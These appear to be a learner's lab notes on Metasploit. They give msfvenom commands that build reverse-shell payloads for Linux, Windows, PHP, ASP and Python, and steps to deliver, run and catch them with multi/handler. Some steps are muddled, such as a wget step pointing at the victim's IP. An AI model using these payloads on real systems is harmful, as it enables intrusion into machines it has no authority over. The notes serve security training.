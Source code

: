 `run`
When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

### Other Payloads

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
The .elf format is **comparable to the .exe format in Windows**. 
These are executable files for Linux. 
However, you may still need to make sure they have executable permissions on the target machine.

For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

All of the examples above are reverse payloads. This means **you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler.**

You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.



1. made a default payload `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf` replace Xs.

2. used `chmod 777 rev__shell.elf` to give all permission to our .elf

3. open up a python3 -m http.server 9000.

4. In new terminal with ssh with the victim's account.

5. Connect to download the file using `wget http://<victim's ip>/rev_shell`.

6. once downloaded give chmod 777.

7. open msfconsole 

8. `search multi/handler` for getting this ends connection.

9. `show options` then set lhost

10. `run`